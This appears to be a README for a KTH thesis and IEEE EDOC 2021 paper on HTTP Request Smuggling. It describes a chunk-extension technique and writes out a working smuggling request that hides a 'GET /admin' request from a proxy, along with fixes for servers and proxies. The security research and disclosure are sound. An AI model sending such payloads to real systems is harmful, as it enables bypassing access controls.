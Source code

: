 
### [Quick link to research](https://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf)

# Bachelor's thesis on HTTP Request Smuggling

During the spring of 2021, we (Mattias Grenfeldt and Asta Olofsson) wrote our bachelor's thesis in Computer Science at KTH Royal Institute of Technology in Sweden. We studied HTTP Request Smuggling. The thesis can be found [here](https://urn.kb.se/resolve?urn=urn:nbn:se:kth:diva-302371).

Once all issues found have been fixed by the affected vendors, we will publish here the code used for the test harness, the test requests and which systems are which in the anonymized report.

## IEEE EDOC 2021 paper

The bachelor's thesis was later rewritten into a conference paper with the help of Viktor Engström, and Robert Lagerström. The paper was submitted to [IEEE EDOC 2021](https://ieee-edoc.org/2021/) and got accepted.

## Systems investigated

Here is the de-anonymization of the systems we investigated:

- P3 - ???
- P4 - ???
- P2 - ???
- P5 - ???
- P1 - ???
- P6 - ???
- S1 - [Gunicorn](https://gunicorn.org/)
- S2 - ???
- S3 - ???
- S4 - ???
- S5 - ???
- S6 - ???

## Errata

After the thesis was published, we realized that we had interpreted the situation with `Transfer-Encoding: chunked` and HTTP version 1.0 incorrectly. It was very unclear what a correct interpretation was. So we opened an issue on the specification. [Here](https://github.com/httpwg/http-core/issues/879) is the discussion that followed. This resulted in a change in the specification.

## Chunk extensions technique

After the thesis was published, we discovered another HRS technique. It is in the EDOC paper however. As far as we know, this is a new technique. The technique uses chunk extensions. You can read more about them here:

- https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1
- https://www.rfc-editor.org/errata/eid4667

Here is how an example request with chunk extensions could look like:

```
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunked
 
5 ; a=b
hello
0

```

We found a proxy which parses chunk extensions incorrectly. It reads the chunk size and then reads any character until it encounters a `\n`. It doesn't verify whether there was a CR before the LF.

This could be combined with many of the servers tested since most servers allow any characters as part of the extension (particularly LF) but read the line until they reach CRLF. So we arrive at the following attack (all lines are terminated by CRLF):

```
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
2;\nxx
4c
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
0
```

The proxy will see the two chunks:

```
xx
```
and:
```
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
```

While the server will only see one chunk:

```
4c
```

and another request after it.

The fix for the server is to parse the chunk extension according to the RFC and not allow LF characters in it. The fix for the proxy is to verify that there is a CRLF there.
